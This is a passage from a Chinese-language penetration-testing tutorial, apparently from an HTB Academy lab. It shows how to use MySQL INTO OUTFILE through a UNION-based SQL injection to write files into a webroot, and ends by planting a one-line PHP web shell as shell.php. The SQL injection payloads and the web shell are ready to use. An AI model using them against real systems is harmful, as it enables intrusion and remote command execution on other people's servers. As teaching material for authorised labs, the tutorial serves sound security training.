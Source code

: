 ```shell-session
sl1aun@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

正如我们在上面看到的，该`test.txt`文件已成功创建并归`mysql`用户所有。

提示：高级文件导出利用“FROM_BASE64("base64_data")”函数，以便能够写入长文件/高级文件，包括二进制数据。

------

### 通过 SQL 注入写入文件

让我们尝试向 webroot 写入一个文本文件并验证我们是否具有写入权限。下面的查询应该写入`file written successfully!`文件`/var/www/html/proof.txt`，然后我们可以在 Web 应用程序上访问该文件：

```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**注意：**要编写 web shell，我们必须知道 web 服务器的基本 web 目录（即 web root）。找到它的一种方法是使用`load_file`读取服务器配置，例如在 找到 Apache 的配置`/etc/apache2/apache2.conf`，在 找到 Nginx 的配置`/etc/nginx/nginx.conf`，或者在 找到 IIS 配置`%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`，或者我们可以在线搜索其他可能的配置位置。此外，我们可能会运行模糊扫描并尝试将文件写入不同的可能的 Web 根目录，使用[这个 Linux 的词表](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)或[这个 Windows 的词表](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)。最后，如果以上方法都不起作用，我们可以使用显示给我们的服务器错误并尝试以这种方式找到 web 目录。

注入`UNION`有效载荷如下：

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

![img](https://p.ipic.vip/hkrsmg.png)

我们在页面上没有看到任何错误，这表明查询成功了。`proof.txt`检查webroot 中的文件，我们看到它确实存在：

![img](https://p.ipic.vip/40z8r3.png)

注意：我们看到我们转储的字符串以及前面的“1”、“3”和后面的“4”。这是因为整个“UNION”查询结果都写入了文件。为了使输出更清晰，我们可以使用 "" 而不是数字。

------

### 编写网络外壳

确认写入权限后，我们可以继续将 PHP web shell 写入 webroot 文件夹。我们可以编写如下的PHP webshell来直接在后台服务器上执行命令：

```php
<?php system($_REQUEST[0]); ?>
```

我们可以重用我们之前的`UNION`注入载荷，并将字符串更改为上面的字符串，并将文件名更改为`shell.php`：

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
